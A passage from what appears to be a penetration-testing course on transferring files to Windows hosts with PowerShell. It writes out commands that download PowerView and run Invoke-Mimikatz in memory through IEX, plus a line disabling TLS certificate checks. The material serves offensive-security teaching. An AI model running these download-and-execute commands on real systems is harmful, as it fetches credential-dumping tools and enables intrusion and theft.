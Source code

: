 | DownloadStringAsync | Downloads a String from a resource without blocking the calling thread.   |

### PowerShell DownloadFile Method

We can specify the class name `Net.WebClient` and the method `DownloadFile` with the parameters corresponding to the URL of the target file to download and the output file name.

### File Download

``` powershell
  C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
  C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

  C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
  C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

### PowerShell DownloadString - Fileless Method

As we previously discussed, fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks.
Instead of downloading a PowerShell script to disk, we can run it directly in memory using the `Invoke-Expression` cmdlet or the alias `IEX`.

```powershell
  C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

`IEX` also accepts pipeline input.

```powershell
  C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### PowerShell Invoke-WebRequest

From PowerShell 3.0 onwards, the **Invoke-WebRequest** cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases `iwr`, `curl`, and `wget` instead of the *
*Invoke-WebRequest** full name.

```powershell
  C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### Common Errors with PowerShell

- There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter -`UseBasicParsing`.
- Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:
    ```powershell
  C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
    ```
